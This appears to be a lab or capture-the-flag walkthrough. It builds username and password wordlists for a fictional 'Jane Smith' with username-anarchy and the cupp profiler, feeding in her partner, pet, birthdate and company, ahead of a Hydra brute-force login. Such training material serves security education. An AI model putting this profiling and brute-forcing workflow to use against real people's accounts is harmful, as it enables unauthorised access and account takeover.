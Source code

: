 Once Hydra has completed the attack, log into the website using the discovered credentials and retrieve the flag.

# Question
---

![Pasted image 20250213154452.png](../../../IMAGES/Pasted%20image%2020250213154452.png)

Let's begin by creating the usernames list:

```
./username-anarchy Jane Smith > usernames.txt
```

Nice, let's create the passwords list using `cupp`:

```
cupp -i

___________
 cupp.py! # Common
 \ # User
 \ ,__, # Passwords
 \ (oo)____ # Profiler
 (__) )\
 ||--|| * [ Muris Kurgas | j0rgan@remote-exploit.org ]
 [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

```